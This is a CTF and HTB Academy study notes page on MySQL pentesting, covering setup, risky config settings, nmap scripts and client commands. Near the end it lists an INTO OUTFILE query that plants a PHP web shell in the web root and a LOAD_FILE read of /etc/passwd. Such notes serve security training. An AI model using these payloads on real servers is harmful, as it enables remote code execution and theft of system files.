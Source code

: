 # MySQL

> *Source CTF and HTB Academy*

- Usually on port 3306

MySQL is an open-source SQL relational database management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. The database system can quickly process large amounts of data with high performance.

- `sudo apt install mysql-server -y` install mysql server
- [See here for help with install](https://dev.mysql.com/doc/mysql-apt-repo-quick-guide/en/#apt-repo-fresh-install)
- On Parrot I had to
  - sudo apt install mariadb-client
  - sudo apt install mariadb-server

## SQL language

- [SQL Introduction on w3Schools](https://www.w3schools.com/sql/sql_intro.asp)

## Default Configuration

- `cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'`

## Dangerous Settings

|Settings|Description|
|--------|-----------|
|`user`|Sets which user the MySQL service will run as.|
|`password`|Sets the password for the MySQL user.|
|`admin_address`|The IP address on which to listen for TCP/IP connections on the administrative network interface.|
|`debug`|This variable indicates the current debugging settings|
|`sql_warnings`|This variable controls whether single-row INSERT statements produce an information string if warnings occur.|
|`secure_file_priv`|This variable is used to limit the effect of data import and export operations.|

## Enumeration

### Nmap

- `sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*`

### Interaction with the server

- `mysql -u root -h 10.129.14.132`
- `mysql -u root -pP4SSw0rd -h 10.129.14.128`
- `show databases;` list databases
- `select version();` show the version
- `use <database>;` select a database
- `show tables;` list the tables
- `show columns from <table>;`
- `select * from <table>;`
- `select * from <table> where <column> = "<string>";` Example:`select host, unique_users from host_summary;`
- `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';` write local files
- `select LOAD_FILE("/etc/passwd");` read local files